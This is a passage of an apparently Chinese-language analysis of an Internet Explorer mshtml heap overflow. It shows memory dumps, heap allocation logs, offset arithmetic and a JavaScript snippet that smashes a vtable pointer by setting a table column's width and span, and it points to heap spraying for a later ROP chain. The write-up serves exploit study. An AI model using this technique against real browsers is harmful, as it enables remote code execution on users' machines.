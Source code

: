 ```a&#39;s&#39;m
031d6638  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6648  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6658  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6668  42 00 42 00 42 00 42 00-42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
031d6678  1f d8 87 77 00 00 00 8c-f8 84 b2 66              ...w.......f
```

而原先的 E A B bUTTON的内存分配情况是  可以看到0x031d6368 0x031d6470 0x031d6578 0x031d6680 这三块内存的连续性 0x031d6368 与 0x031d6470 中间间隔是0x108  其中 的 8 是 A 起始的堆指针,也就是0x031d6468~ 0x031d6470 这八个字节

```a&#39;s&#39;m
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6368, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6470, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6578, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x0016ee50, Size is:0x00000058
 [*RtlAllocateHeap*]Alloc Buffer:0x031b68a8, Size is:0x00000014
 [*RtlAllocateHeap*]Alloc Buffer:0x0016be60, Size is:0x00000040
 [*RtlAllocateHeap*]Alloc Buffer:0x031def88, Size is:0x000000c4
 [*RtlAllocateHeap*]Alloc Buffer:0x00135310, Size is:0x00000020
 [*RtlAllocateHeap*]Alloc Buffer:0x031ae4f0, Size is:0x0000004c
 [*RtlAllocateHeap*]Alloc Buffer:0x031ae548, Size is:0x00000050
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6680, Size is:0x000000fc
```

我们需要此时我们写出的位置是19*1C=0x214;  0x214-0x100 -0x08 - 0x100-0x8 = 4 这个4刚好是B的字符串长度,我们写入的值是0x10048 为啥是这个值 , 请往回看0x1c的数据的布局  当width是0n41的时候, 最后一个数字的值就是0x10048了

```a&#39;s
width*10     width*10      width*10          不做改变       不做改变          不做改变     width*10*16|8
```

我们可以看出虚表指针地址是0x66b284f8,当泄露出mshtml的基地址之后,我们后面需要构造Rop,为此程序构造了覆盖虚表指针的操作;这就是第二段的

```javascript
var obj_col_0 = document.getElementById("132");
obj_col_0.width = 1178993;                    // smash the vftable 0x07070024
obj_col_0.span = 44;                         // the amount to overwrite
```

从代码的注释中我们可以看出来作者的意图 其将虚表指针覆盖成0x07070024,这个数字其实是有讲究的

[targeted-heap-spraying](http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html)这个里面的技术,作者发现了512k以上的js的string的分配返回的地址总是在0xXXXX0000上,并且内存布局是下面的样子

